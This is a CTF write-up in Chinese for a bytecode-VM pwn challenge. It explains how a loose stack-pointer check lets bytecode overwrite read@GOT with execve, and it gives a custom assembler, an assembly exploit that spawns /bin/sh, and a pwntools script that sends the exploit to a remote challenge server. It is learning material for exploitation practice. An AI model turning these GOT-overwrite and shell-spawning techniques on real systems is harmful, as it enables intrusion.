


# mvmps

> 你已经进到了我的空间，有点小缝隙，不过没关系

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.35-0ubuntu3.8|

## 解题思路

### 分析程序

典型的vm题。先加载一些符号以便于说明。

```python
import lief

FILE = './vvmm'
binary = lief.parse(FILE)
binary.interpreter = '/libraries/2.35-0ubuntu3.8_amd64/ld-linux-x86-64.so.2'
binary.add(lief.ELF.DynamicEntryRunPath('.'))
binary.add_symtab_symbol(lief.ELF.Symbol())

def newsym(name: str, addr: int, end: int) -> lief.ELF.Symbol:
    sym = lief.ELF.Symbol()
    sym.name = name
    sym.value = addr
    sym.size = end - addr if end else 0
    sym.binding = lief.ELF.Symbol.BINDING.GLOBAL
    sym.type = lief.ELF.Symbol.TYPE.FUNC
    sym.visibility = lief.ELF.Symbol.VISIBILITY.DEFAULT
    sym.shndx = 15
    return sym

def newsymobj(name: str, addr: int, size: int) -> lief.ELF.Symbol:
    sym = lief.ELF.Symbol()
    sym.name = name
    sym.value = addr
    sym.size = size
    sym.binding = lief.ELF.Symbol.BINDING.GLOBAL
    sym.type = lief.ELF.Symbol.TYPE.OBJECT
    sym.visibility = lief.ELF.Symbol.VISIBILITY.DEFAULT
    sym.shndx = 26
    return sym

syms = [
    newsym('main', 0x402afa, 0x402b9c),
    newsym('vm_run', 0x402992, 0x402ab3),
    newsym('vm_decode', 0x40125a, 0x4014af),
    newsym('vm_exec_imm', 0x401546, 0x401c38),
    newsym('vm_exec_rd', 0x401c38, 0x401e52),
    newsym('vm_exec_rd_rs', 0x401e52, 0x4024a8),
    newsym('vm_exec_rd_imm', 0x4024a8, 0x402992),
    newsym('segv', 0x401239, 0x40125a),
    newsym('exceed_data', 0x401215, 0x401239),
    newsym('exceed_reg', 0x4011f6, 0x401215),
    newsym('system_call', 0x4014af, 0x401546),

    newsymobj('text', 0x4050a0, 0x1000),
]
for e in syms:
    binary.add_symtab_symbol(e)
binary.write(FILE)
```

进入`vm_run`可以看到每次运行会先解码指令，然后运行。跟踪到`vm_decode`函数，
首先会取`pc`处的字节，低2位是寄存器使用类型，高6位存放操作符。

```c
enum OP_TYPE {
    IMM = 0,
    RD = 1,
    RD_RS = 2,
    RD_IMM = 3,
};

struct VM {
    byte *text;
    uint pc;
    ulong regs[6];
    ulong sp;
    byte cmp_flag;
};

struct OP {
    byte opcode;
    enum OP_TYPE type;
    uint rd;
    uint rs;
}
```

> [!IMPORTANT]
> 题目的IMM指令的加载不按套路出牌啊。别的都是用C语法直接加载，就它是手写的，使用
> **大端** 并 **只加载 3 个字节** （`RD_IMM`加载立即数时加载4字节）。

在解析完字节码后，程序将数据存放进OP结构体中，然后按照其`type`执行对应的`vm_exec_*`，如加减乘除，
赋值，执行系统调用等。最后返回`vm_run`进入下一个解码、执行循环。

### 对`sp`检查不严格

程序中有着大量的检查防止越界，唯独对栈指针`sp`的检查很宽松，允许其为负数。
而我们的字节码又是存放在bss区的，因此通过`sp`的相关操作，可以让我们对GOT表做操作。
为了执行`execve("/bin/sh", NULL, NULL)`，我们可以将字符串放在数据区里，
然后修改`read@GOT`为`execve@GOT`，最后执行read syscall就可以打开shell了。



### 汇编hack script

既然是vm题，我们可以写一个汇编器，将人类可读的指令，转换成题目要求的字节码。
以下是我手写的简易汇编器：(`assembler.py`)

```python
#!/usr/bin/python3
# assembler.py
from enum import IntEnum
from struct import pack
import re

class PTR_TYPE(IntEnum):
    BYTE = 0
    WORD = 1
    DWORD = 2
    RAW = 3

SP = 6
class Reg:
    ptr: PTR_TYPE
    val: int
    is_imm: bool

    ptr_rx_pattern = re.compile(r'ptr \[r([0-5])\]')
    ptr_imm_pattern = re.compile(r'ptr \[(-?0x[0-9a-f]+|-?[0-9]+)\]')
    rx_pattern = re.compile(r'r([0-5])')
    imm_pattern = re.compile(r'(-?0x[0-9a-f]+|-?[0-9]+)')

    def __init__(self, op_str: str) -> None:
        op_str = op_str.strip()
        if op_str.startswith('byte'):
            self.ptr = PTR_TYPE.BYTE
        elif op_str.startswith('word'):
            self.ptr = PTR_TYPE.WORD
        elif op_str.startswith('dword'):
            self.ptr = PTR_TYPE.DWORD
        else:
            self.ptr = PTR_TYPE.RAW

        patterns = (self.ptr_rx_pattern, self.ptr_imm_pattern) \
                   if self.ptr is not PTR_TYPE.RAW else             \
                   (self.rx_pattern, self.imm_pattern)
        match = patterns[0].search(op_str)
        if match:
            self.is_imm = False
        else:
            match = patterns[1].search(op_str)
            if not match and op_str == 'sp':
                self.val = SP
                self.is_imm = False
                return
            assert match, f'Invalid op_str {op_str}'
            self.is_imm = True
        self.val = int(match.group(1), 0)
        if self.val < 0:
            self.val = 0x800000 | -self.val

OPERATORS = { # 0 means pending
    'cmp': 0, 'mov': 0, 'xor': 4, 'or': 5, 'and': 6, 'lsh': 7, 'rsh': 8, 'xchg': 9, 'add': 0, 'sub': 0,
    'push': 0x1f, 'pop': 0x20, 'inc': 0x21, 'dec': 0x22,
    'je': 0x2a, 'jg': 0x2b, 'ja': 0x2b, 'jl': 0x2c, 'jb': 0x2c, 'jae': 0x2d, 'jge': 0x2e, 'jne': 0x2f,
    'jmp': 0x29, 'call': 0x30, 'ret': 0x3b, 'syscall': 0, 'halt': 0,
}

class OP_TYPE(IntEnum):
    IMM = 0
    RD = 1
    RD_RS = 2
    RD_IMM = 3

class Operator:
    mnem: str
    op_str: str
    opcode: int
    rd: Reg
    rs: Reg
    imm: Reg
    type: OP_TYPE
    unsigned_cmp: int = 0 # 0 is not compare, 1 for unsigned and 2 for signed

    def __init__(self, line: str) -> None:
        line = line.split('#', 1)[0].strip() # discard comment first
        if not line:
            self.mnem = None
            return

        def split_operands(mnem: str, op_str: str, expect: int) -> list[str]:
            ops = op_str.split(',')
            if expect:
                assert len(ops) == expect, f'{mnem} expect {expect} operand(s)'
            return ops


        split = line.split(' ', 1)
        if len(split) == 1:
            mnem, op_str = split[0], ''
        else:
            mnem, op_str = split
        self.op_str = op_str
        self.opcode = 0 # some op has only one opcode, so we can set them at the end
        if mnem == 'cmp':
            ops = split_operands(mnem, op_str, 2)
            reg1, reg2 = Reg(ops[0]), Reg(ops[1])
            assert not reg1.is_imm, 'cmp expect first operand to be reg'
            self.rd = reg1
            if reg2.is_imm:
                self.imm = reg2
                self.type = OP_TYPE.RD_IMM
            else:
                self.rs = reg2
                self.type = OP_TYPE.RD_RS

        elif mnem == 'mov':
            ops = split_operands(mnem, op_str, 2)
            reg1, reg2 = Reg(ops[0]), Reg(ops[1])
            assert not reg1.is_imm, f'{mnem} expect first operand to be reg'
            self.rd = reg1
            if reg2.is_imm:
                self.imm = reg2
                self.type = OP_TYPE.RD_IMM
            elif reg2.val == SP:
                self.opcode = 0x23
                self.type = OP_TYPE.RD
            else:
                self.rs = reg2
                self.type = OP_TYPE.RD_RS

            if not reg1.is_imm and not reg2.is_imm and reg2.val != SP:
                # STUPID LOGIC!
                self.rd, self.rs = self.rs, self.rd

            if not self.opcode: # skip mov rd, sp case
                assert reg1.ptr is PTR_TYPE.RAW or reg2.ptr is PTR_TYPE.RAW, f'{mnem} expect not all operands are pointers'
                if reg1.ptr is PTR_TYPE.RAW and reg2.ptr is PTR_TYPE.RAW:
                    self.opcode = 3
                elif reg2.ptr is PTR_TYPE.BYTE:
                    self.opcode = 12
                elif reg2.ptr is PTR_TYPE.WORD:
                    self.opcode = 13
                elif reg2.ptr is PTR_TYPE.DWORD:
                    self.opcode = 14
                elif reg1.ptr is PTR_TYPE.BYTE:
                    self.opcode = 15
                elif reg1.ptr is PTR_TYPE.WORD:
                    self.opcode = 16
                elif reg1.ptr is PTR_TYPE.DWORD:
                    self.opcode = 17
                else:
                    assert False, 'no such case'

        elif mnem in ('xor', 'or', 'and', 'lsh', 'rsh'):
            ops = split_operands(mnem, op_str, 2)
            reg1, reg2 = Reg(ops[0]), Reg(ops[1])
            assert not reg1.is_imm, f'{mnem} expect first operand to be reg'
            assert reg1.ptr is PTR_TYPE.RAW and reg2.ptr is PTR_TYPE.RAW, f'{mnem} expect two operands to be raw'
            self.rd = reg1
            if reg2.is_imm:
                self.imm = reg2
                self.type = OP_TYPE.RD_IMM
            else:
                self.rs = reg2
                self.type = OP_TYPE.RD_RS

        elif mnem == 'xchg':
            ops = split_operands(mnem, op_str, 2)
            reg1, reg2 = Reg(ops[0]), Reg(ops[1])
            assert not reg1.is_imm and not reg2.is_imm, f'{mnem} expect two operands to be reg'
            assert reg1.ptr is PTR_TYPE.RAW and reg2.ptr is PTR_TYPE.RAW, f'{mnem} expect two operands to be raw'
            self.rd = reg1
            self.rs = reg2
            self.type = OP_TYPE.RD_RS

        elif mnem in ('add', 'sub'):
            ops = split_operands(mnem, op_str, 2)
            reg1, reg2 = Reg(ops[0]), Reg(ops[1])
            assert not reg1.is_imm, f'{mnem} expect first operand to be reg'
            assert reg1.ptr is PTR_TYPE.RAW and reg2.ptr is PTR_TYPE.RAW, f'{mnem} expect two operands to be raw'
            if reg1.val == SP:
                assert reg2.is_imm, f'{mnem} sp, X expect X to be imm'
                assert (reg2.val & 3) == 0, f'{mnem} sp, X expect X is aligned to 4'
                reg2.val >>= 2
                self.imm = reg2
                self.opcode = 0x24 if mnem == 'sub' else 0x25
                self.type = OP_TYPE.IMM
            else:
                self.rd = reg1
                if reg2.is_imm:
                    self.imm = reg2
                    self.type = OP_TYPE.RD_IMM
                else:
                    self.rs = reg2
                    self.type = OP_TYPE.RD_RS
                self.opcode = 10 if mnem == 'add' else 11

        elif mnem in ('push', 'pop', 'inc', 'dec'):
            ops = split_operands(mnem, op_str, 1)
            reg = Reg(ops[0])
            assert not reg.is_imm, f'{mnem} expect operand to be reg'
            assert reg.ptr is PTR_TYPE.RAW, f'{mnem} expect operand to be raw'
            self.rd = reg
            self.type = OP_TYPE.RD

        elif mnem in ('jmp', 'call', 'ret'):
            ops = split_operands(mnem, op_str, 1)
            reg = Reg(ops[0])
            assert reg.ptr is PTR_TYPE.RAW, f'{mnem} expect operand to be raw'
            if mnem == 'ret':
                assert reg.is_imm, f'{mnem} expect operand to be imm'
                self.imm = reg.is_imm
                self.type = OP_TYPE.IMM
            else: # jmp or call
                if reg.is_imm:
                    self.imm = reg
                    self.type = OP_TYPE.IMM
                else:
                    self.rd = reg
                    self.type = OP_TYPE.RD

        elif mnem in ('je', 'jne', 'ja', 'jb', 'jae', 'jbe', 'jg', 'jl', 'jge', 'jle'):
            ops = split_operands(mnem, op_str, 1)
            reg = Reg(ops[0])
            assert reg.ptr is PTR_TYPE.RAW, f'{mnem} expect operand to be raw'
            if reg.is_imm:
                self.imm = reg
                self.type = OP_TYPE.IMM
            else:
                self.rd = reg
                self.type = OP_TYPE.RD
            if mnem in ('jg', 'jl', 'jge', 'jle'):
                self.unsigned_cmp = 2
            else:
                self.unsigned_cmp = 1

        elif mnem == 'syscall':
            ops = split_operands(mnem, op_str, 4)
            reg, r0, r1, r2 = ops
            imm = Reg(reg)
            assert imm.is_imm, f'{mnem} expect first operand to be imm'
            assert imm.ptr is PTR_TYPE.RAW, f'{mnem} expect first operand to be raw'
            self.imm = imm
            self.type = OP_TYPE.IMM

            def test_syscall_with_text(op: str, no: int) -> int:
                op = op.strip().replace(' ', '')
                if op == f'r{no}':
                    return 0
                if op == f'text+r{no}':
                    return 1 << no
                assert False, f'Invalid syntax when calling syscall: {op}'

            bits = 0
            bits |= test_syscall_with_text(r0, 0)
            bits |= test_syscall_with_text(r1, 1)
            bits |= test_syscall_with_text(r2, 2)
            mapping = {
                0: 0, 1: 1, 2: 2, 4: 3,
                3: 4, 5: 5, 6: 6, 7: 7,
            }
            self.opcode = 0x33 + mapping[bits]

        elif mnem == 'halt':
            self.type = None

        else:
            assert False, f'No such menm: {mnem}'
        self.mnem = mnem
        if not self.opcode:
            self.opcode = OPERATORS[self.mnem]

    def __bytes__(self) -> bytes:
        if self.type is None:
            return b'\0'
        assert self.opcode, f'Found uninitialized opcode for {self.mnem} {self.op_str}'
        op = int(self.type) | (self.opcode << 2)
        if self.type is OP_TYPE.IMM:
            return pack('<B', op) + pack('>I', self.imm.val)[1:] # only takes 3 bytes
        if self.type is OP_TYPE.RD:
            return pack('<BB', op, self.rd.val)
        if self.type is OP_TYPE.RD_RS:
            return pack('<BBB', op, self.rd.val, self.rs.val)
        if self.type is OP_TYPE.RD_IMM:
            return pack('<BBI', op, self.rd.val, self.imm.val)


def assemble(lines: list[str], verbose: bool) -> bytes:
    pending_cmp: Operator = None
    oplist: list[tuple[Operator, str]] = []
    for lineno, line in enumerate(lines, start=1):
        try:
            operator = Operator(line)
        except AssertionError as e:
            raise SyntaxError(f'Invalid syntax found on line {lineno}: {line.rstrip()}') from e

        if operator.mnem is None:
            del operator
            continue
        if operator.opcode == 0:
            assert pending_cmp is None, f'Unmatched pending cmp found in line {lineno}'
            pending_cmp = operator
        elif operator.unsigned_cmp:
            assert pending_cmp, f'No matched pending cmp in line {lineno}'
            pending_cmp.opcode = operator.unsigned_cmp
            pending_cmp = None

        oplist.append((operator, line.strip()))

    assembled = [bytes(e[0]) for e in oplist]
    if verbose:
        print('Assembled code for each line:')
        for i, e in enumerate(oplist):
            print(f'{i + 1:3d}:  {assembled[i].hex(" "):18s} <-  {e[1]}')
    return b''.join(assembled)

def assemble_file(file: str, verbose: bool) -> bytes:
    with open(file) as f:
        lines = f.readlines()
    return assemble(lines, verbose)


if __name__ == '__main__':
    import sys
    verbose = '-v' in sys.argv
    if len(sys.argv) == 1:
        print(f'Usage: python {sys.argv[0]} asm_file [-v]')
        sys.exit(1)
    for i in range(1, len(sys.argv)):
        if sys.argv[i] != '-v':
            bytecode = assemble_file(sys.argv[i], verbose)
            print(bytecode)
            break
    else:
        sys.exit(1)
```

最后写汇编exp以及脚本调用汇编器，将字节码发送过去即可。

## EXPLOIT

```asm
# hack.s
# set sp to -0x1060
sub sp, 0x1060
# pop read@GOT 
pop r4
sub r4, 0x29750 # now r1 is execve & 0xffffffff
push r4 # boom, read is execve now

# since we have execve, how to trigger execve("/bin/sh", 0, 0)
mov r1, 0
mov r2, 0
mov r3, 0x6e69622f # /bin
mov r4, 0x800
mov dword ptr [r4], r3
mov r3, 0x68732f   # /sh
mov r4, 0x804
mov dword ptr [r4], r3

mov r0, 0x800
# TRIGGER EXECVE!
syscall 0, text + r0, r1, r2
halt
```

```python
from pwn import *
from assembler import assemble_file
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './vvmm'
ASM_FILE = './hack.s'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('45.40.247.139', 16614)

    bytecode = assemble_file(ASM_FILE, False)
    info(f'Sending bytecode {bytecode}')
    t.sendafter(b'opcodes', bytecode)

    t.clean()
    t.interactive()
    t.close()
```


